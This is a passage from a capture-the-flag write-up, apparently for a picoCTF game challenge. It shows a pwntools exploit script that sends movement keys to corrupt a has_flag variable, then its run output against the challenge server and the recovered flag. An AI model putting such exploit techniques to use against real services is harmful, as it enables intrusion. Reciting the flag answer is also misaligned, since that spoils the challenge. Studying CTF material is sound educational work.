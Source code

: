 ```python
    p.send(b'A')
    sleep(0.1)
    
    # Stage 2: Move to (0, -4) - corrupts has_flag
    log.info("Stage 2: Moving to (0, -4) to corrupt has_flag")
    p.send(b'wwww')
    sleep(0.2)
    p.send(b'aaaaaaaa')
    sleep(0.2)
    
    # Stage 3: Navigate to exit (29, 89)
    log.info("Stage 3: Navigating to exit (29, 89)")
    p.send(b's' * 29)
    sleep(0.5)
    p.send(b'd' * 93)
    sleep(0.5)
    
    # Receive flag
    log.success("Retrieving flag...")
    p.interactive()

if __name__ == '__main__':
    exploit()
```

---

## Flag Capture

### Execution

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 56421: Done
[*] Switching to interactive mode

[Map display showing player movement...]

You win!
flage
picoCTF{gamer_m0d3_enabled_f4f6ad7d}

[*] Got EOF while reading in interactive
[*] Closed connection to saturn.picoctf.net port 56421
```

### Flag

```
picoCTF{gamer_m0d3_enabled_f4f6ad7d}
```

---